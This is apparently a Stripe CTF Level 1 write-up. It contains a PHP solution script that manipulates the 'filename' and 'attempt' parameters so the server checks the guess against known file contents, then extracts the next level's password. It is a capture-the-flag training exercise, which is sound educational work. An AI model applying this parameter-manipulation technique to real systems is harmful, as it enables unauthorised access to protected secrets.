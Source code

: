 ## Level 1

Excellent, you are now on Level 1, the Guessing Game. All you have to do is guess the combination correctly, and you'll be given the password to access Level 2! We've been assured that this level has no security vulnerabilities in it (and the machine running the Guessing Game has no outbound network connectivity, meaning you wouldn't be able to extract the password anyway), so you'll probably just have to try all the possible combinations. Or will you...?

You can play the Guessing Game at https://level01-1.stripe-ctf.com/user-xxxxxxxxxx. The code for the Game can be obtained from `git clone https://level01-1.stripe-ctf.com/user-xxxxxxxxxx/level01-code`, and is also included below.

### Running

- Put index.php on a server somewhere with the two .txt files in the
  same directory.

### Solution

```php
#!/usr/bin/env php
<?php

$endpoint = "https://level01-1.stripe-ctf.com/user-xxxxxxxxxx/";
$url = "$endpoint?filename=index.php&attempt=" . urlencode(trim(file_get_contents("index.php")));

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$result = curl_exec($ch);
curl_close($ch);

if (preg_match('/password to the access Level 2: ([a-zA-Z]+)<\/p>/', $result, /*&*/$matches) && !empty($matches[1])) {
  echo $matches[1] . "\n";
}
```

Originally posted at [https://stripe-ctf.com/levels/1](https://stripe-ctf.com/levels/1).
